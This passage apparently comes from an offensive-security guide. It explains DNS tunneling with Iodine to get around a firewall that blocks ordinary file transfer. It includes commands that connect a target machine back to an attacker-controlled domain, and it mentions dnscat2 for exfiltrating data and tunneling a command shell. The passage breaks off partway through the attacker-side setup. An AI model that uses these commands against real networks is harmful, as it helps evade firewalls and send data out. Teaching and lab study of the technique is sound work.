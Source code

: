     2. **Set up the DNS tunneling client on the target machine:**
        
        - If you can execute commands on the target machine, you can use **Iodine** as a client to connect back to your server:
            
            ```bash
            sudo apt-get install iodine
            sudo iodine -f 10.0.0.1 example.com
            
            ```
            
            This creates a virtual network interface on the target that allows data to flow through the DNS tunnel.
            
    3. **Transfer files through the DNS tunnel:**
        
        - Once the tunnel is established, you can use standard file transfer protocols like `scp`, `wget`, or `curl` over this DNS tunnel.
        
        You can also tunnel a command shell or other traffic through this interface.
        
    
    ### **Tools for DNS Tunneling:**
    
    - **Iodine**: A tool for setting up DNS tunneling over a virtual network interface.
    - **dnscat2**: A tool specifically designed for exfiltrating data using DNS queries.
    
    ### **Scenario**
    
    You have access to the target machine, but traditional file transfer methods (like `scp`, `wget`, or `curl`) are blocked due to a firewall. However, the firewall allows DNS traffic. You want to use DNS tunneling to transfer files from your attacker machine (your local machine) to the target machine by encapsulating data in DNS queries.
    
    ---
    
    ### **Step 1: Set up DNS Tunneling on Your (Attacker) Machine**
    
    ### **1.1 Install Iodine on the Attacker Machine**
    
    First, ensure that Iodine is installed on your local machine (the attacker).
    
    ```bash
    sudo apt-get install iodine
    
    ```
    
    ### **1.2 Configure DNS for Your Domain**
    
    - You need a domain name that you control (e.g., `example.com`).
    - Create a DNS `A` record for your domain pointing to your attacker machine’s public IP (e.g., `123.45.67.89`).
    - This will allow DNS requests to reach your server.
    
    Example:
    